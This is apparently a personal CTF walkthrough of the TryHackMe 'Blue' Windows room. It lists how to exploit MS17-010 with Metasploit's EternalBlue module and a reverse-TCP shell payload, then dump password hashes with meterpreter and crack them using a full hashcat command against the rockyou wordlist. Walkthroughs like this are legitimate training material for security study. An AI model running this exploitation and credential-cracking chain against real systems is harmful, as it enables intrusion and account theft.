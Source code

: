 # 22. Blue 🧭
Names | Details
--------|-----
Source | tryhackme
Level | easy
Os | windows

**Notes :**

#categoty/windows 


## Gaining Access 😉
- vuln script scan using nmap
- found vulnerability ms17-010
- auxiliary/.../.../: Auxiliary modules include port scanners, fuzzers, sniffers, and more. https://www.offensive-security.com/metasploit-unleashed/modules-and-locations/
- used metasploit exploit/windows/smb/ms17_010_eternalblue
- used payload `set payload windows/x64/shell/reverse_tcp`



## Maintaining Access 🥷
- used post/multi/manage/shell_to_meterpreter
- migrated process id using `migrate psid`
- got jon's hash using command `hashdump` in meterpreter
- password cracked with hashcat


## Important commands 🔥
1. hashcat
	```
	hashcat --username --show -a 0 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
	```
	

## Post Exploitation ✴️
- flag 1 :  C:\
- flag 2 :  C:\\windows\\system32\\config
- flag 3:  C:\\Document and settings\\jon\\Documents
## Tips 💡
- something


--------------------------------
**By Nibras Muhammed** 🤓🖥️






